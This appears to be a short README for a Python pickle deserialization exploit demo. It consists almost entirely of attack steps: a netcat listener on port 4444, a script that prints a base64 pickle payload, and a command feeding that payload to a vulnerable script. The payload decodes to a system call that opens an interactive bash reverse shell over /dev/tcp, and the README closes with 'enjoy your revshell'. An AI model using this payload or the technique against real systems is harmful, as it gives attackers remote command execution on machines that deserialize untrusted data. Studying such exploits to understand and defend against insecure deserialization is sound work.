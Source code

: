 # pickle deserialize Exploit

## Quick Start

Terminal 1.
```
$ nc -nvvlp 4444
```

Terminal 2.
```bash
$ python3 pickle_exp.py3
b'gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFiYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS80NDQ0IDA-JjEilIWUUpQu'

$ python3 pickle_vul.py3 'gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFiYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS80NDQ0IDA-JjEilIWUUpQu'
<enjoy your revshell in Terminal 1.  =)>
```


